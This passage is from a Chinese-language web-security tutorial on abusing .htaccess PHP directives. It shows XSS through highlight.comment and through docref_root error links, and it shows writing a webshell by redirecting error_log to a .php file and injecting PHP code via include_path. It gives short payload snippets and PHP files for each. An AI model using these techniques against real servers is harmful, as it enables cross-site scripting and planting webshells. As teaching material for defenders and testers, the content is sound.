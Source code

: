 #### <a class="reference-link" name="%E9%80%9A%E8%BF%87%E8%AE%BE%E7%BD%AE%20highlight_file"></a>通过设置 highlight_file

我们可以通过 .htaccess 文件设定 highlight.comment 选项，指定需要高亮的内容，从而进行 XSS。

.htaccess中的内容

```
php_value highlight.comment '"&gt;&lt;script&gt;alert(1);&lt;/script&gt;'
```

index.php中的内容为：

```
&lt;?php
highlight_file(__FILE__);
// comment
```

当访问index.php时便会触发 XSS：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a90eb8cc7a6f0548.png)

#### <a class="reference-link" name="%E9%80%9A%E8%BF%87%E9%94%99%E8%AF%AF%E6%B6%88%E6%81%AF%E9%93%BE%E6%8E%A5"></a>通过错误消息链接

.htaccess 中的内容：

```
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'&gt;&lt;script&gt;alert(1);&lt;/script&gt;"
```

index.php 中的内容为：

```
&lt;?php
include('foo'); // 这里会报错
```

当访问index.php时便会触发 XSS：

[![](https://p4.ssl.qhimg.com/t01d02403ed5c67d8af.png)](https://p4.ssl.qhimg.com/t01d02403ed5c67d8af.png)

### <a class="reference-link" name="%E8%87%AA%E5%AE%9A%E4%B9%89%E9%94%99%E8%AF%AF%E6%96%87%E4%BB%B6%EF%BC%88%E5%8F%AF%E5%86%99Webshell%EF%BC%89"></a>自定义错误文件（可写Webshell）

error_log 可以将 PHP 运行报错的记录写到指定文件中，因此我们可以通过 .htaccess 文件设定 error_log 选项来自定义错误文件的存储路径，并以此来写入Webshell：

```
php_value error_log /var/www/html/shell.php
php_value include_path "&lt;?php phpinfo(); __halt_compiler();"
# include_path 用来将include()的默认目录路径改变
```
